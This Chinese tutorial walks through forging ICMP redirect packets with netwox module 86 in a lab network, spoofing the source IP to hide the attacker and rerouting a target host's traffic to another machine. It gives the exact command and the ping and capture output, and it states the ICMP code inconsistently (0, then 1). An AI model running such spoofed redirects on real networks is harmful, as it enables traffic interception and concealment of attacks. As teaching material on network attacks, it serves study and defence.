



# 伪造重定向 ICMP 数据包

> 原文：[`c.biancheng.net/view/6421.html`](http://c.biancheng.net/view/6421.html)

当路由收到 IP 数据报，发现数据报的目的地址在路由表上却不存在时，它发送 ICMP 重定向报文给源发送方，提醒它接收的地址不存在，需要重新发送给其他地址进行查找。

在重定向 ICMP 报文中，类型值为 5，代码值为 0。

伪造重定向 ICMP 数据包需要使用 netwox 工具中编号为 86 的模块。

【实例】已知主机 A 的 IP 地址为 192.168.59.132，netwox 工具所在主机 IP 地址为 192.168.59.135。基于 netwox 所在主机向主机 A 实施攻击。为了不让目标主机发现攻击的来源，伪造数据包的源 IP 地址为 192.168.59.136，将目标主机的网关修改为网段中的其他主机，使目标主机发送的数据包重定向到该主机上。

具体步骤如下：

1) 查看目标主机 A 的网关。在目标主机 A 上，向 www.qq.com ([`www.qq.com`](http://www.qq.com)) 发送 ping 请求。通过捕获数据包，查看网关信息，如图所示。

图中第 2 帧和第 3 帧为 DNS 协议查询数据包，是通过网关查询 www.qq.com (http://www.qq.com) 主机的 IP 地址信息。从中可以判断，目标主机的网关为 192.168.59.2。

2) 向目标主机发送重定向数据包，设置源 IP 地址为 192.168.59.136，将目标主机发送的数据包重定向到主机 192.168.59.131 上，执行命令如下：

root@daxueba:~# netwox 86 -g 192.168.59.131 -c 1 -i 192.168.59.136

执行命令没有任何输出信息。

3) 在目标主机上向 www.qq.com (http://www.qq.com) 发送 ping 请求，执行命令如下：

root@daxueba:~# ping www.qq.com

输出信息如下：

PING https.qq.com (125.39.52.26) 56(84) bytes of data.
64 bytes from no-data (125.39.52.26): icmp_seq=1 ttl=128 time=25.6 ms
From localhost (192.168.59.136): icmp_seq=1 Redirect Host(New nexthop:
localhost (192.168.59.131))
From localhost (192.168.59.136): icmp_seq=2 Redirect Host(New nexthop:
localhost (192.168.59.131))
64 bytes from no-data (125.39.52.26): icmp_seq=2 ttl=128 time=25.2 ms
From localhost (192.168.59.136): icmp_seq=3 Redirect Host(New nexthop:
localhost (192.168.59.131))
64 bytes from no-data (125.39.52.26): icmp_seq=3 ttl=128 time=27.1 ms
64 bytes from no-data (125.39.52.26): icmp_seq=4 ttl=128 time=25.5 ms
From localhost (192.168.59.136): icmp_seq=4 Redirect Host(New nexthop:
localhost (192.168.59.131))

上述输出信息中，64 bytes from no-data(125.39.52.26)：icmp_seq=1 ttl=128 time=25.6 ms 表示成功向目标 www.qq.com (http://www.qq.com) 发送 ping 请求；From localhost(192.168.59.136)：icmp_seq=1 Redirect Host(New nexthop：localhost(192.168.59.131)) 表示伪造的重定向 ICMP 数据包，源 IP 地址为 192.168.59.136，Redirect Host 表示目标主机已经重定向，重定向到了主机 192.168.59.131 上。

4) 在目标主机上捕获数据包，验证重定向的数据包，如图所示。

其中，第 11 帧的源 IP 地址为 192.168.59.136（设置的源 IP 地址），目标 IP 地址为 192.168.59.132（设置的目标 IP 地址），Info 列的 Redirect(Redirect for host) 表示该数据包是一个重定向数据包。

在 Internet Control Message Protocol 部分中，Type 值为 5，Code 值为 1，说明该数据包是重定向的数据包；Gateway address：192.168.59.131 表示该主机的网关被重新定向到了 192.168.59.131。

5) 选择第 13 帧，查看网关的重定向信息，如图所示。

第 13 帧的源 IP 地址为 192.168.59.136（设置的源 IP 地址），目标 IP 地址为 192.168.59.2（目标主机 A 的网关）。该数据包也是一个重定向的数据包。

在 Internet Control Message Protocol 部分中，Gateway address：192.168.59.131 表示目标主机 A 的网关被修改为了 192.168.59.131。